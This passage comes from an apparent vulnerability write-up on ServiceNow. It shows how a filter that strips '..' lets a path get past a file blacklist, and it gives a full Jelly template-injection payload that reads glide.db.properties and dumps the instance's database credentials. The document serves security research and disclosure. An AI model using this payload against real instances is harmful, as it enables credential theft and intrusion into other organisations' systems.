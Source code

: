 However, something in the call to `getBufferedReader` itself caught our eye:

    
    
    // SecurelyAccess.java
    
        @GlideScriptable
        public BufferedReader getBufferedReader() throws FileNotFoundException {
            return new BufferedReader(new FileReader(this.getFile()));
        }
    
            @GlideScriptable
        public File getFile() {
            // .. snip .. 
            return SysFileUtil.getPath(this.fFileName);
        }
    
    // -->
    // SysFileUtil.java
    
        private static File getPath(String path, boolean useProxy) {
            path = SysFileUtil.cleanupPath(path);
            File f = SysFileUtil.createFile(path, useProxy);
            try {
                if (f.exists()) {
                    return f;
                }
            }
            catch (SecurityException securityException) {
                // empty catch block
            }
            return SysFileUtil.getPathInGlideHome(path, false, useProxy);
        }
    
        public static String cleanupPath(String path) {
            return path.replaceAll("\\.\\.", "");
        }

The filename we provide to `SecurelyAccess` gets passed into
`SysFileUtil.cleanupPath`, which removes the double dot `..` from the path
before accessing it! This means we can pass a path like
`/glide/node/[[node]]/co..nf/glide.db.properties` to bypass the blacklist!

The rest of the payload is simply a matter of reading the ServiceNow docs. We
settled on this payload to dump the database credentials:

    
    
    <style><j:jelly xmlns:j="jelly:core" xmlns:g='glide'><g:evaluate>z=new Packages.java.io.File("").getAbsolutePath();z=z.substring(0,z.lastIndexOf("/"));u=new SecurelyAccess(z.concat("/co..nf/glide.db.properties")).getBufferedReader();s="";while((q=u.readLine())!==null)s=s.concat(q,"\n");gs.addErrorMessage(s);</g:evaluate></j:jelly></style>

Replacing our earlier payload with this, we dump the full database credentials
of the instance:

![](https://cdn.prod.website-
files.com/64233a8baf1eba1d72a641d4/66b3be03c4b7998464b613e5_668f1a9ac0c8b99b148f260b_img4.png)

